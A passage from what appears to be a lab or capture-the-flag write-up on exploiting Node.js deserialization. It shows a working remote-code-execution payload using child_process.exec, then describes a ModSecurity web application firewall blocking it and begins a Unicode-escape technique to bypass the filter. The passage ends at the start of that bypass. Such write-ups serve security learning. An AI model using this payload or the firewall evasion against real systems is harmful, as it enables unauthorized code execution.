 ```bash
{"username":"admin","admin":"1","logon":1724641582084}
```

[HackTricks](https://book.hacktricks.xyz/pentesting-web/deserialization#nodejs) has some cool tricks on deserialization that we can try here.

```bash
{"rce":"_$$ND_FUNC$$_function(){ require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) }); }()"}
```

If we try it on `Burp - Repeater` it return to us a `Actions blocked` page.

![Burp - Actions blocked](images/portal_profile_rce_actions_blocked.png)

It seems that a version of [ModSecure](https://github.com/owasp-modsecurity/ModSecurity/wiki) is blocking us. Checking on [coreruleset](https://github.com/coreruleset/coreruleset/blob/main/rules/REQUEST-934-APPLICATION-ATTACK-GENERIC.conf#L52) we see the current version of the filter. But we don't know if this is the one in place on the target.

After playing a bit with Unicode escape sequence, we can try to replace a few char to hex and try to bypass the filter.

| Char | Hex | Unicode escape |
| -- | -- | -- |
| F | 46 | `\u0046` |
| f | 66 | `\u0066` |
